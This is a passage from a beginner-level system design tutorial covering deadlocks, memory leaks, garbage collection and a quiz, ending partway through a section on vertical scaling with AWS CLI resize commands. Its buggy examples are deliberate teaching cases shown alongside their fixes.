**🎯 Remember:** Pessimistic locking = "lock first, then work". Use `SELECT ... FOR UPDATE` inside a short transaction, with a timeout. `NOWAIT` fails fast and `SKIP LOCKED` builds job queues. Choose it when conflicts are frequent.

**🔗 See also:** [#58 Optimistic Locking](#58-optimistic-locking), [#60 Deadlocks](#60-deadlocks), [#56 Race Conditions](#56-race-conditions)

---

### 60. Deadlocks

> **In one line:** A deadlock is when two or more workers each wait for something the other one holds, so nobody can ever move again.

**🏠 Real-life analogy:** Two cars drive onto a narrow one-lane bridge from opposite ends and meet in the middle. Each driver waits for the other to back up. Neither does, so they wait forever. Or picture two people at dinner with one chopstick each. You need two chopsticks to eat. Each person holds theirs and waits for the other to give one up, and nobody eats. Computer scientists call this the "dining philosophers" problem.

**❓ What problem does it solve?** Understanding deadlocks lets you prevent the scariest kind of bug: **the frozen app**.
- There is no crash and no error message. CPU sits near 0%, requests just hang until they time out.
- In a web server, stuck threads slowly use up the thread pool or DB connection pool until the whole service stops responding.
- In databases, deadlocked transactions get aborted. If your app doesn't retry, users see random "something went wrong" errors.

**⚙️ How it works:**
1. **The four Coffman conditions** (from a 1971 paper by Coffman, Elphick and Shoshani). A deadlock can only happen if **all four** are true at once:

| Condition | Meaning | How to break it |
|---|---|---|
| **Mutual exclusion** | A resource can be held by only one worker at a time | Use shareable resources (read locks) or lock-free atomics |
| **Hold and wait** | A worker holds one resource while waiting for another | Grab everything you need at once, or use a single bigger lock |
| **No preemption** | Nobody can forcibly take a resource away | Use timeouts or try-lock: give up what you hold and retry |
| **Circular wait** | A cycle: T1 waits for T2, which waits for T1 | **Always lock in the same global order** (the most common fix) |

2. **Break any one condition and deadlock becomes impossible.** In practice, the easiest one to break is **circular wait**, through consistent lock ordering.
3. **Prevention techniques:**
   - **Lock ordering:** always lock account A before account B, for example sorted by ID, no matter which direction the money flows.
   - **Timeouts:** `lock.acquire(timeout=1)` in Python, `lock_timeout` in PostgreSQL. Give up instead of waiting forever.
   - **Short transactions:** the less time you hold locks, the smaller the window for a cycle.
   - **Lock fewer things:** one lock instead of three, or an atomic `UPDATE` instead of lock + read + write.
4. **Database deadlocks:** databases *detect* deadlocks for you. PostgreSQL waits `deadlock_timeout` (default 1 second), then looks for a cycle in the "who waits for whom" graph. It aborts one transaction with `ERROR: deadlock detected` (SQLSTATE `40P01`) so the others can continue. MySQL InnoDB does something similar (error 1213, "Deadlock found when trying to get lock; try restarting transaction"). **Your app should catch this error and retry the whole transaction.**

```mermaid
flowchart LR
  LockA["Lock A (account 1)"] -->|"held by"| T1["Thread T1"]
  T1 -->|"waits for"| LockB["Lock B (account 2)"]
  LockB -->|"held by"| T2["Thread T2"]
  T2 -->|"waits for"| LockA
```

```mermaid
sequenceDiagram
  participant T1 as Transaction 1
  participant DB as PostgreSQL
  participant T2 as Transaction 2
  T1->>DB: UPDATE accounts row A (locks A)
  T2->>DB: UPDATE accounts row B (locks B)
  T1->>DB: UPDATE row B, waits for T2
  T2->>DB: UPDATE row A, waits for T1
  Note over DB: after deadlock_timeout the detector finds the cycle
  DB-->>T2: ERROR deadlock detected, T2 rolled back
  DB-->>T1: lock on row B granted, T1 continues
```

**💻 Example:**

A Python program that deadlocks. Two transfers lock the same two accounts in *opposite* order:

```python
import threading, time

lock_a = threading.Lock()        # protects account A
lock_b = threading.Lock()        # protects account B

def transfer_a_to_b():
    with lock_a:                 # 1. grab A
        time.sleep(0.1)          # 2. do some work...
        with lock_b:             # 3. ...now want B (T2 holds it!)
            print("moved money A -> B")

def transfer_b_to_a():
    with lock_b:                 # 1. grab B  <- opposite order
        time.sleep(0.1)
        with lock_a:             # 3. want A (T1 holds it!)
            print("moved money B -> A")

t1 = threading.Thread(target=transfer_a_to_b)
t2 = threading.Thread(target=transfer_b_to_a)
t1.start(); t2.start()
t1.join(); t2.join()             # 💀 never returns: deadlock
print("done")
```

The fix is consistent lock ordering. Every transfer locks accounts in the same (sorted) order:

```python
import threading, time

locks = {"A": threading.Lock(), "B": threading.Lock()}

def transfer(src, dst):
    first, second = sorted([src, dst])   # ALWAYS lock in alphabetical order
    with locks[first]:
        time.sleep(0.1)
        with locks[second]:
            print(f"moved money {src} -> {dst}")

t1 = threading.Thread(target=transfer, args=("A", "B"))
t2 = threading.Thread(target=transfer, args=("B", "A"))
t1.start(); t2.start(); t1.join(); t2.join()
print("done")                            # ✅ always finishes
```

Retrying when the database picks your transaction as the deadlock victim (psycopg, a PostgreSQL driver):

```python
import time
from psycopg import errors

def transfer_with_retry(conn, src, dst, amount, attempts=3):
    for attempt in range(attempts):
        try:
            with conn.transaction():              # rolls back on error
                do_transfer(conn, src, dst, amount)
            return
        except errors.DeadlockDetected:
            time.sleep(0.05 * (2 ** attempt))     # back off, then retry
    raise RuntimeError("transfer failed after retries")
```

**Deadlock vs livelock vs starvation:**

| | What happens | Everyday analogy | CPU usage | Typical fix |
|---|---|---|---|---|
| **Deadlock** | Everyone waits forever, nothing moves | Two cars stuck on a one-lane bridge | Near 0% | Lock ordering, timeouts, DB retry |
| **Livelock** | Everyone keeps reacting to each other, but no real progress | Two people in a hallway both stepping left, then both right, forever | High (busy) | Random backoff (jitter) before retrying |
| **Starvation** | The system makes progress, but one worker *never* gets a turn | A polite customer at a crowded bar who never gets served | Normal | Fair locks or queues, aging priorities |

**🌍 Real-world usage:**
- **PostgreSQL, MySQL, SQL Server and Oracle** all detect deadlocks automatically and abort a victim. Teams log these errors and retry.
- **Java:** `jstack <pid>` prints a thread dump and explicitly reports "Found one Java-level deadlock".
- **Go:** the runtime panics with `fatal error: all goroutines are asleep - deadlock!` when every goroutine is blocked.
- **Python:** `py-spy dump --pid <pid>` shows what every thread is stuck on.
- **Payment and banking systems** commonly sort account IDs before locking rows for a transfer, which is exactly the lock-ordering fix.

**⚖️ Trade-offs:**

| Strategy | Pros | Cons |
|---|---|---|
| Global lock ordering | Prevents deadlocks completely | Every code path must follow the rule |
| Lock timeouts / try-lock | Simple safety net | Must handle failures, and may cause livelock without jitter |
| One coarse lock | Impossible to deadlock on a single lock | Less parallelism, slower |
| Let the DB detect + retry | No extra design work | Wasted work, latency spikes, and you must write retry code |

**⚠️ Common mistakes:**
- Locking the same resources in different orders in different code paths (A→B in one place, B→A in another).
- Not catching and retrying database deadlock errors (`40P01`, MySQL `1213`).
- Calling unknown code (callbacks, plugins, network calls) while holding a lock. That code might try to take another lock.
- Re-acquiring a non-reentrant lock in the same thread. Python's `threading.Lock` deadlocks with *itself*; use `RLock` if you really need re-entry.
- Long transactions that hold many row locks while doing slow work.

**🎯 Remember:** Deadlock needs all four Coffman conditions, so break one. The usual fix is "always lock in the same order", plus timeouts and short transactions. Databases detect deadlocks for you, but your app must retry.

**🔗 See also:** [#59 Pessimistic Locking](#59-pessimistic-locking), [#57 Thread Safety](#57-thread-safety), [#56 Race Conditions](#56-race-conditions)

---


### 61. Memory Leaks

> **In one line:** A memory leak is memory your program no longer needs but never gives back, so memory use creeps up until the program crashes.

**🏠 Real-life analogy:** Imagine a desk where you print a new sheet of paper for every phone call, and you never throw any away. At first it's fine. After a week the desk is buried, you can't find anything (everything gets slower), and eventually there is literally no room to work (the crash). Nobody "uses" those old papers anymore. You just never cleared them.

**❓ What problem does it solve?** Finding and fixing leaks keeps services alive and fast. Without that:
- Memory climbs slowly for hours or days, then the process is killed by the operating system's **OOM killer** (Out-Of-Memory). On Kubernetes, the pod restarts with reason **`OOMKilled`** (exit code 137), often at 3 a.m.
- Before the crash, a garbage-collected app gets **slower and slower** as the garbage collector works harder and harder to free space and finds almost nothing. This is called **GC thrashing**.
- Teams hide it with "we just restart it every night", which works until traffic doubles.

**⚙️ How it works:**
1. **In C/C++ (manual memory):** you ask for memory with `malloc` (or `new`) and must return it with `free` (or `delete`). Forget `free`, or lose the last pointer to the memory, and it's leaked forever.
2. **In garbage-collected languages (Java, Python, JavaScript, Go, C#), leaks still happen.** The GC (#62) only frees objects that **nothing can reach anymore**. A leak there means you *accidentally keep a reference* to stuff you don't need. If something can still reach it, the GC must keep it.
3. **The usual suspects:**
   - **Unbounded caches and maps:** `cache[user_id] = data` with no size limit and no expiry.
   - **Global lists** that only ever grow: `all_requests.append(req)` "for debugging".
   - **Event listeners and timers never removed:** `emitter.on(...)` or `setInterval(...)` registered per request or per component, and never cleaned up.
   - **Closures holding big objects:** a small callback function that "captures" a huge variable from around it keeps that variable alive.
   - **Per-thread data in thread pools:** `ThreadLocal` values in long-lived pool threads are never cleared.
   - **Resource leaks** (a close cousin): files, sockets and DB connections never closed.
4. **Healthy vs leaking memory over time:**
   - **Healthy = sawtooth:** memory rises as objects are created, then the GC drops it back to the *same floor*.
   - **Leak = staircase:** GC still runs, but the floor after each GC keeps **rising**, until it hits the limit.

```text
HEALTHY (sawtooth): up, GC, back to the same floor
mem |  /|  /|  /|  /|  /|  /|
    | / | / | / | / | / | / |
    |/  |/  |/  |/  |/  |/  |
    +----------------------------> time

LEAK (staircase): GC runs, but the floor keeps rising
mem | - - - - - - - - - - - - - - - container limit  ->  OOMKilled
    |                         /|
    |                    /|__/
    |               /|__/
    |          /|__/
    |     /|__/
    |/|__/
    +----------------------------> time
```

```mermaid
flowchart LR
  subgraph Healthy["Healthy: sawtooth"]
    H1["200 MB"] -->|"allocate"| H2["450 MB"]
    H2 -->|"GC"| H3["200 MB"]
    H3 -->|"allocate"| H4["450 MB"]
    H4 -->|"GC"| H5["200 MB"]
  end
  subgraph Leaky["Leak: staircase"]
    L1["200 MB"] -->|"GC"| L2["300 MB"]
    L2 -->|"GC"| L3["400 MB"]
    L3 -->|"GC"| L4["500 MB"]
    L4 -->|"limit hit"| L5["OOMKilled, restart"]
  end
```

5. **How to hunt a leak (step by step):**
   1. **Confirm it with metrics:** graph memory over hours. Look at *memory after GC* or the process RSS (Resident Set Size, the RAM actually used), not a single reading.
   2. **Take two heap snapshots** (a photo of every object in memory) a few minutes apart, under load.
   3. **Compare them:** which object types grew the most?
   4. **Find the retainer path:** *who* is holding a reference to those objects (a global map? a listener?).
   5. **Fix it, then verify** that the graph turns back into a sawtooth.
6. **Tools:**
   - **JavaScript / Node.js:** Chrome DevTools Memory tab (heap snapshots, allocation timelines). Start Node with `node --inspect server.js` and attach DevTools, or call `v8.writeHeapSnapshot()`.
   - **Python:** `tracemalloc` (built in, shows which lines allocated memory) and `objgraph`.
   - **Java:** heap dumps (`jmap -dump:live,format=b,file=heap.hprof <pid>` or `-XX:+HeapDumpOnOutOfMemoryError`), analysed in **Eclipse MAT** (Memory Analyzer Tool).
   - **C/C++:** **Valgrind** (`valgrind --leak-check=full ./server`), AddressSanitizer / LeakSanitizer.

**💻 Example:**

C: forgot to `free` on an early return:

```c
void handle_request(void) {
    char *buf = malloc(1024);       // borrow 1 KB
    if (parse(buf) != 0) {
        return;                     // ❌ LEAK: early return skips free()
    }
    send_response(buf);
    free(buf);                      // only reached on the happy path
}
// valgrind --leak-check=full ./server  ->  "definitely lost: 1,024 bytes in 1 blocks"
```

JavaScript / Node.js: a listener added on every request is never removed:

```js
// ❌ LEAK: every request adds a listener that is never removed
const EventEmitter = require('events');
const configBus = new EventEmitter();

app.get('/report', (req, res) => {
  const bigReport = Buffer.alloc(5 * 1024 * 1024);      // 5 MB per request
  configBus.on('reload', () => {
    // this closure captures bigReport, so it can NEVER be freed
    console.log('reloading report of size', bigReport.length);
  });
  res.send('ok');
});
// After 1,000 requests: 1,000 listeners holding about 5 GB.
// Node even warns: "MaxListenersExceededWarning: Possible EventEmitter memory leak detected"
```

```js
// ✅ FIX: register long-lived listeners ONCE, outside the request handler
configBus.on('reload', () => console.log('reloading reports'));

app.get('/report', (req, res) => {
  const bigReport = Buffer.alloc(5 * 1024 * 1024);
  res.send(`report size ${bigReport.length}`);   // bigReport can be freed after this
});

// ✅ If you truly need a per-request listener, remove it when the request ends:
//    configBus.on('reload', onReload);
//    res.on('finish', () => configBus.off('reload', onReload));
```

Python: an unbounded cache:

```python
# ❌ LEAK: this dict grows forever, one entry per user ever seen
_profile_cache = {}

def get_profile(user_id):
    if user_id not in _profile_cache:
        _profile_cache[user_id] = load_profile_from_db(user_id)
    return _profile_cache[user_id]
```

```python
# ✅ FIX 1: bounded LRU cache (Least Recently Used entries get evicted)
from functools import lru_cache

@lru_cache(maxsize=10_000)
def get_profile(user_id):
    return load_profile_from_db(user_id)

# ✅ FIX 2: size limit + TTL (time-to-live), via: pip install cachetools
from cachetools import TTLCache, cached

@cached(cache=TTLCache(maxsize=10_000, ttl=300))   # entries expire after 5 minutes
def get_profile_fresh(user_id):
    return load_profile_from_db(user_id)
```

Finding which lines of Python code are growing, with `tracemalloc`:

```python
import tracemalloc

tracemalloc.start()
before = tracemalloc.take_snapshot()
handle_many_requests()                      # run the suspicious code a lot
after = tracemalloc.take_snapshot()

for stat in after.compare_to(before, "lineno")[:5]:
    print(stat)                             # top 5 lines whose memory grew the most
```

**🌍 Real-world usage:**
- **Kubernetes** shows leaks as pods with `Last State: Terminated, Reason: OOMKilled, Exit Code: 137` in `kubectl describe pod`. A rising restart count is a classic leak signal.
- **Monitoring dashboards** (Prometheus + Grafana, Datadog) alert on "memory still growing after GC for N hours", not just "memory is high".
- **Java** services usually run with `-XX:+HeapDumpOnOutOfMemoryError`, so the evidence is saved automatically at the moment of the crash.
- **Frontend single-page apps** (React, Angular) often leak through `setInterval` or event listeners that are not cleaned up when a component unmounts. Teams use Chrome DevTools heap snapshots to find "detached" DOM nodes that are no longer on the page but still in memory.

**⚖️ Trade-offs:**

| Fix | When to use | Downside |
|---|---|---|
| Bounded LRU cache | Hot data that's reused a lot | Must pick a size, and evicted data is reloaded |
| TTL cache | Data that goes stale anyway | Can still grow big within one TTL window |
| Weak references (`WeakMap`, `weakref`) | Attaching extra data to objects you don't own | Entries vanish when the GC decides, which can surprise you |
| Explicit cleanup (`off`, `clearInterval`, `close`) | Listeners, timers, connections | Easy to forget. Use `try/finally`, `with` or component cleanup hooks |
| Scheduled restarts | Emergency band-aid only | Hides the real bug, which comes back when traffic grows |

**⚠️ Common mistakes:**
- Believing "my language has a GC, so it can't leak." It can, through references you forgot about.
- Adding a cache with no size limit or TTL ("we'll add eviction later").
- Using `@lru_cache` on instance methods in Python. The cache keeps every `self` alive forever.
- Judging by one memory reading instead of the trend of *memory after GC* over hours.
- Taking heap dumps in production carelessly. They can pause the process, be several GB in size, and contain sensitive user data (passwords, tokens, personal info).

**🎯 Remember:** A leak is "still referenced but never needed again". Look for the staircase graph, compare two heap snapshots, find who is holding the references, and give every cache a size limit or TTL.

**🔗 See also:** [#62 Garbage Collection](#62-garbage-collection), [#57 Thread Safety](#57-thread-safety)

---

### 62. Garbage Collection

> **In one line:** Garbage collection (GC) is an automatic cleaner that finds memory your program can no longer reach and frees it for you.

**🏠 Real-life analogy:** In a busy restaurant, diners don't clean their own tables. A busser walks around and clears any table whose diners have left. That's GC. Usually the busser works quietly between diners. But sometimes the manager shouts "everybody freeze!" so the staff can count every plate in the room. While everyone is frozen, no food goes out. That freeze is a **stop-the-world pause**, and it's the main downside of GC.

**❓ What problem does it solve?** Managing memory by hand is error-prone and dangerous:
- **Forget to free** memory, and you get a leak (#61).
- **Free it twice** (a "double free"), and you get crashes or corrupted memory.
- **Use it after freeing** ("use-after-free"), and you get crashes and serious security holes. Both Microsoft and Google's Chromium team have reported that around 70% of their serious security bugs are memory-safety problems.
- GC removes most of these bug classes, so developers can focus on features. The price is some CPU, extra memory and occasional pauses.

**⚙️ How it works:**
1. **Stack vs heap:** a program has two main memory areas.
   - The **stack** holds each function's local variables. It's tiny, super fast, and cleaned automatically when the function returns.
   - The **heap** holds objects that must outlive a single function call (a user, a shopping cart, a cache). It's big and flexible, but *someone* has to clean it. That's where manual memory management or GC comes in.
2. **Roots and reachability:** GC starts from **roots**, the things the program can definitely use right now: variables on the stack, global variables and CPU registers. Anything reachable by following references from a root is **alive**. Everything else is **garbage**.
3. **Approach 1: manual.** C and C++ use `malloc`/`free` and `new`/`delete`. Modern C++ uses smart pointers and RAII (objects that clean up when they go out of scope). Rust uses **ownership**: the compiler inserts the "free" at exactly the right spot. You get no GC and no pauses.
4. **Approach 2: reference counting.** Every object keeps a count of how many references point at it. When the count drops to 0, it's freed immediately. **CPython** works this way, as do Swift/Objective-C (ARC) and C++ `shared_ptr`. Its weakness is **cycles**: if A points to B and B points to A, both counts stay at 1 forever. So CPython adds a separate **cycle collector** (the `gc` module), and Swift uses `weak` references.
5. **Approach 3: tracing (mark-and-sweep).**
   - **Mark:** start from the roots and mark everything reachable.
   - **Sweep:** free everything that wasn't marked. Cycles are handled naturally.
   - Variants: **mark-compact** slides the survivors together to remove gaps (fragmentation), and **copying** collectors copy the survivors to a fresh area.
6. **Generational GC.** The **generational hypothesis** says *most objects die young*. A request object, a temporary string or a loop variable lives for milliseconds. So the heap is split up:
   - The **young generation** is collected very often, and that's cheap because almost everything in it is already dead (a "minor GC").
   - Objects that survive a few collections are **promoted** to the **old generation**, which is collected rarely (a "major" or "full" GC, more expensive).
   - The JVM, .NET, V8 (the JavaScript engine in Chrome and Node.js) and CPython's cycle collector all use generations.
7. **Stop-the-world (STW) pauses and p99 latency.** Some GC phases must pause *all* your application threads. If a 300 ms pause hits while 1,000 requests are in flight, all of them get 300 ms slower. That shows up in your **p99 latency** (the response time of the slowest 1 in 100 requests), even if the average looks fine. Modern **concurrent** collectors do most of their work while your code keeps running, to keep pauses short.
8. **Collectors you'll hear about:**

| Runtime | Collector | Notes |
|---|---|---|
| JVM (Java, Kotlin, Scala) | **G1** | Default since JDK 9. Splits the heap into regions and aims for a pause-time goal (`-XX:MaxGCPauseMillis`, default 200 ms) |
| JVM | **ZGC** | Mostly concurrent, designed for very short pauses (typically under a millisecond) even on huge heaps. Generational mode added in JDK 21 |
| JVM | **Shenandoah** | From Red Hat. Concurrent compaction for low pauses |
| Go | Concurrent tri-color mark-and-sweep | Not generational. Tuned with `GOGC` and `GOMEMLIMIT` (Go 1.19+) |
| JavaScript (V8) | Orinoco | Generational: a fast "scavenger" for the young generation, mostly concurrent marking for the old |
| Python (CPython) | Reference counting + generational cycle collector | `gc.freeze()` and `gc.disable()` for special cases |

9. **Case study: Discord (2020).** Discord's engineering blog post *"Why Discord is switching from Go to Rust"* described their **Read States** service, which tracks which messages each user has read. It kept a very large in-memory LRU cache. The Go runtime forces a garbage collection at least every two minutes. Each time, the GC had to scan that huge cache, which caused **regular latency spikes**. Tuning didn't make them go away. They rewrote the service in Rust, where memory is freed through ownership with no GC, and the spikes disappeared. The lesson is not "Go is bad" (Go's GC has kept improving). The lesson is to **know how your runtime manages memory** when you hold huge long-lived data and care about tail latency.

```mermaid
flowchart LR
  subgraph StackArea["Stack (per thread, auto-cleaned)"]
    FrameMain["main(): cart = ref"]
    FrameCheckout["checkout(): total = 42"]
  end
  subgraph HeapArea["Heap (shared, needs cleaning)"]
    Cart["Cart object"]
    Book["Item: Book"]
    Pen["Item: Pen"]
    OldCart["Old Cart (nothing points here = garbage)"]
  end
  FrameMain -->|"reference"| Cart
  Cart --> Book
  Cart --> Pen
```

```mermaid
flowchart LR
  Roots["GC Roots<br/>(stack vars, globals)"] --> UserObj["User: MARKED"]
  UserObj --> SessionObj["Session: MARKED"]
  UserObj --> CartObj["Cart: MARKED"]
  ReportObj["Old Report: unmarked"] --> RowsObj["Old Rows: unmarked"]
  RowsObj --> ReportObj
  Sweep["Sweep phase"] -.->|"frees"| ReportObj
  Sweep -.->|"frees"| RowsObj
```

In the mark-and-sweep picture above, "Old Report" and "Old Rows" point at each other (a cycle), but no root reaches them, so tracing GC frees them both. Plain reference counting could not.

```mermaid
flowchart LR
  NewObj["new object"] --> Young["Young generation<br/>(collected often, fast)"]
  Young -->|"most objects die young"| Freed["Freed"]
  Young -->|"survives a few GCs (promoted)"| Old["Old generation<br/>(collected rarely, slower)"]
  Old -->|"eventually unreachable"| Freed
```

**💻 Example:**

Reference counting and the cycle problem in CPython:

```python
import sys, gc

a = []
print(sys.getrefcount(a))   # 2  (the name 'a' + the temporary argument)
b = a
print(sys.getrefcount(a))   # 3  ('b' points to it too)
del b
print(sys.getrefcount(a))   # 2

# A reference cycle: counts never drop to 0 by themselves
x = {}
y = {}
x["other"] = y
y["other"] = x
del x, y                    # unreachable now, but each still has 1 reference
print(gc.collect())         # the cycle collector finds and frees them (prints 2)
```

Tuning and watching the GC in different runtimes:

```bash
# Java: pick a low-pause collector, fix the heap size, log every GC pause
java -XX:+UseZGC -Xms4g -Xmx4g -Xlog:gc:file=gc.log -jar app.jar

# Go: collect less often (default GOGC=100) but never use more than 2 GiB
GOGC=200 GOMEMLIMIT=2GiB ./server
GODEBUG=gctrace=1 ./server            # print one line per GC, with timings

# Node.js: allow a bigger old generation and print GC events
node --max-old-space-size=4096 --trace-gc server.js
```

**Tips to keep GC from hurting you:**
- **Reduce allocations** in hot code paths: reuse buffers and avoid creating throwaway objects inside tight loops. Less garbage means less GC.
- **Object pools** for expensive, frequently created objects (Go's `sync.Pool`, connection pools, buffer pools).
- **Tune the heap:** give the GC enough headroom, and on the JVM set `-Xms` equal to `-Xmx` to avoid resizing. Leave room for non-heap memory in containers.
- **Pick the right collector** for your goal: throughput (batch jobs) vs low pause (APIs).
- **Monitor GC pause metrics** alongside p99 latency, for example `jvm_gc_pause_seconds` (Micrometer/Prometheus) and `go_gc_duration_seconds` (Go Prometheus client).

**🌍 Real-world usage:**
- **Discord** moved its latency-sensitive Read States service from Go to Rust to escape GC-driven latency spikes (see above).
- **Instagram** published "Dismissing Python Garbage Collection at Instagram" (2017). They disabled Python's cycle collector in their web servers to avoid memory-sharing problems between forked worker processes. That work led to `gc.freeze()` being added in Python 3.7.
- **Low-latency Java systems** (trading platforms, ad bidding, big data services) commonly move to ZGC or Shenandoah to keep pauses tiny on large heaps.
- **Go services** use `GOMEMLIMIT` in containers so the GC works harder *before* hitting the container memory limit, instead of getting OOMKilled.

**⚖️ Trade-offs:**

| Approach | Pros | Cons |
|---|---|---|
| Manual (C/C++) | Full control, no pauses, predictable | Leaks, double frees, use-after-free, security bugs |
| Reference counting (CPython, Swift) | Frees memory immediately, simple to understand | Can't free cycles alone, count updates cost CPU |
| Tracing GC (JVM, Go, V8, .NET) | Handles cycles, very productive for developers | Pauses, extra CPU and memory headroom |
| Ownership (Rust) | No GC, no pauses, memory-safe | Steeper learning curve, the compiler is strict |

**⚠️ Common mistakes:**
- Calling `System.gc()` or `gc.collect()` all over the code "to help". It usually makes things slower.
- Setting a container's memory limit equal to the JVM's `-Xmx`. The JVM also needs non-heap memory (metaspace, thread stacks, direct buffers), so the pod gets OOMKilled.
- Watching only *average* latency. GC pauses hide in p99 and p99.9.
- Running a huge heap on a collector not designed for it, which leads to multi-second full GC pauses.
- Assuming GC means "no leaks". It only frees what is *unreachable* (see #61).

**🎯 Remember:** GC frees what nothing can reach. Most objects die young, so generational collectors are fast, but stop-the-world pauses can hurt p99 latency. Reduce allocations, pick the right collector, and monitor GC pauses.

**🔗 See also:** [#61 Memory Leaks](#61-memory-leaks), [#57 Thread Safety](#57-thread-safety)

---

### 🧠 Part 9 Quiz

**Q1. What is a race condition? Give one example from a web app.**
<details><summary>Show answer</summary>

A race condition is a bug where the result depends on the timing of two or more things running at the same time and touching shared data. Example: two buyers both read "stock = 1", both pass the `if stock > 0` check, and both buy the last item (a check-then-act / TOCTOU race), so the shop oversells.

</details>

**Q2. Your flash sale oversold an item. The code does `SELECT stock`, checks it in Python, then runs `UPDATE products SET stock = <new value>`. What would you change?**
<details><summary>Show answer</summary>

Make the check and the change one atomic statement: `UPDATE products SET stock = stock - 1 WHERE id = ? AND stock > 0`, then check rows affected (1 = success, 0 = sold out). Add a safety net such as `CHECK (stock >= 0)`. A Python lock wouldn't help, because the app runs on several servers.

</details>

**Q3. Optimistic vs pessimistic locking: which would you use for editing a wiki page, and which for selling the last tickets of a sold-out concert?**
<details><summary>Show answer</summary>

Wiki page: **optimistic**. Conflicts are rare and people take minutes to edit, so use a `version` column (or `ETag` + `If-Match`) and reject stale saves. Concert tickets: **pessimistic** (`SELECT ... FOR UPDATE` in a short transaction, with a lock timeout), because conflicts are constant and optimistic locking would cause endless failed retries.

</details>

**Q4. Your service suddenly stops responding. CPU is near 0%, and a thread dump shows Thread 1 holds lock A and waits for lock B, while Thread 2 holds lock B and waits for lock A. What happened and how do you fix it?**
<details><summary>Show answer</summary>

It's a deadlock: a circular wait, with all four Coffman conditions true. The fix is to always acquire locks in one consistent global order (for example, sorted by account ID). Also add lock timeouts, keep locked sections short, and retry database deadlock errors like PostgreSQL's `40P01`.

</details>

**Q5. Service X's memory climbs a little after every GC until its pod is `OOMKilled`. Service Y's memory looks like a steady sawtooth, but its p99 latency spikes every few minutes. What is likely happening in each?**
<details><summary>Show answer</summary>

X has a **memory leak**: a "staircase" where something (an unbounded cache, a growing list, a listener that is never removed) keeps references alive. Compare two heap snapshots to find it. Y has **GC pauses**: memory is healthy, but stop-the-world collections freeze requests. Reduce allocations, tune the heap, or switch to a low-pause collector, and monitor GC pause metrics.

</details>


## Part 10 — Scaling & Cost

"Scale" means your system keeps working well when more is asked of it. Usually that "more" comes in three flavors: **more users** (from 100 to 10 million people), **more data** (from megabytes to petabytes), and **more requests per second** (from a few clicks to a Black Friday rush). Almost every system goes through the same growth path, and each step fixes one bottleneck (the slowest part that limits everything else) while adding some complexity and cost. In this part you will learn the two basic ways to grow (bigger machines vs. more machines), how to grow automatically, how serverless changes the picture, and how to keep the cloud bill from growing faster than your business.

```mermaid
flowchart TD
    S1["Stage 1: One server<br/>app + database on the same box"] -->|"CPU or RAM maxed out"| S2["Stage 2: Separate database server"]
    S2 -->|"one app server is not enough"| S3["Stage 3: Load balancer +<br/>multiple app servers"]
    S3 -->|"database is busy with repeated reads"| S4["Stage 4: Add a cache<br/>(Redis / Memcached)"]
    S4 -->|"still too many reads"| S5["Stage 5: Read replicas<br/>of the database"]
    S5 -->|"too many writes, too much data,<br/>users worldwide, slow tasks"| S6["Stage 6: Sharding + CDN +<br/>message queues"]
```

How to read this map: you only move to the next stage when you **measure** a real bottleneck. Stage 1 → 2 is usually vertical scaling plus a split (#63). Stage 3 is horizontal scaling (#64), which makes autoscaling (#65) possible. Stages 4–6 are covered in other parts: Caching (#38), Read Replicas (#45), Sharding (#47), CDN (#9) and Message Queues (#31). Serverless (#66, #67) is a different path where the cloud provider does much of the scaling for you, and Cost Optimization (#68) keeps the whole journey affordable.

---

### 63. Vertical Scaling

> **In one line:** Vertical scaling means making your one computer bigger and stronger (more CPU, more memory, faster disk) so it can do more work.

**🏠 Real-life analogy:** You run a small delivery business with one van. Orders double, so you trade the van for a bigger truck. Same driver, same routes, nothing new to learn, so it is the easiest fix. But there is a biggest truck on the market, and very big trucks cost a lot more. If your one truck breaks down, nobody gets their packages. And on the day you swap trucks, you can't deliver anything. That is "buy a bigger truck" scaling, also called **scaling up**.

**❓ What problem does it solve?** Your app runs on one server. Traffic grows and the server starts to choke:
- CPU (the "brain" that does calculations) sits at 95%, so every request waits in line.
- RAM (fast short-term memory) runs out, so the database can't keep hot data in memory and has to read from the slow disk.
- Disk I/O (how fast the disk can read and write) is maxed out, so queries crawl.

Without scaling, pages get slow, then requests time out, then the server crashes. Vertical scaling is the fastest fix because it needs **no code change**. The same program just gets more resources.

**⚙️ How it works:**
1. **Find the bottleneck.** Look at monitoring: is it CPU, memory, disk, or network? Scaling the wrong resource wastes money.
2. **Pick a bigger machine.** In the cloud, you change the *instance type* (the machine size). On your own hardware, you add RAM sticks, swap in faster SSDs, or buy a new server.
3. **Restart onto the new hardware.** Most resizes need a stop and start, so there is a short **downtime** (time when the service is unavailable). For databases, a common trick is to resize a replica first, then fail over to it.
4. **Same code, more power.** Nothing else changes: same IP or DNS name (if configured), same data, same deployment.

What you can scale up:
- **CPU cores**: helps only if your software can use many cores (multi-threaded or multi-process). A single-threaded program (like one Node.js process) won't get faster with 64 cores.
- **RAM**: lets a database keep its "working set" (the data it uses most) in memory. This is often the biggest win for databases.
- **Disk**: SSD or NVMe instead of spinning disks, or more IOPS (input/output operations per second).
- **Network**: bigger instances usually come with more network bandwidth.

The limits you will hit:
- **Hardware ceiling:** the biggest cloud machines have hundreds of CPU cores and terabytes of RAM, but there is always a biggest one. After that, you can't scale up anymore.
- **Cost grows faster than power at the top:** on physical hardware, top-end servers cost far more per unit of power. In the cloud, prices inside one instance family grow roughly in step with size, but the biggest and most specialized machines (for example, terabytes of RAM) carry a premium. You also pay for the whole big box 24/7, even at 3 a.m. when traffic is low.
- **Single point of failure (SPOF):** one machine means one failure takes everything down.
- **Resize downtime:** each upgrade usually means a restart.
- **Diminishing returns:** locks, single-threaded parts and shared data structures mean 2x the cores rarely gives 2x the speed.

```mermaid
flowchart LR
    Small["Small server<br/>2 CPU / 8 GB RAM"] -->|"traffic grows"| Medium["Medium server<br/>8 CPU / 32 GB RAM"]
    Medium -->|"traffic grows"| Large["Large server<br/>64 CPU / 512 GB RAM"]
    Large -->|"traffic grows"| Ceiling{"Is a bigger<br/>machine available?"}
    Ceiling -->|"yes, but pricey"| Huge["Huge server<br/>hundreds of CPUs / TBs of RAM"]
    Ceiling -->|"no"| Wall["Ceiling reached:<br/>must scale horizontally"]
```

**💻 Example:** Upgrading an AWS EC2 virtual machine (an "instance") from `m5.large` (2 vCPU, 8 GiB RAM) to `m5.2xlarge` (8 vCPU, 32 GiB RAM) using the AWS CLI:

```bash
# 1. Stop the instance (an EBS-backed instance must be stopped to change its type)
aws ec2 stop-instances --instance-ids i-0abc123def4567890
aws ec2 wait instance-stopped --instance-ids i-0abc123def4567890

# 2. Change the instance type: 4x the CPU and RAM
aws ec2 modify-instance-attribute \
  --instance-id i-0abc123def4567890 \
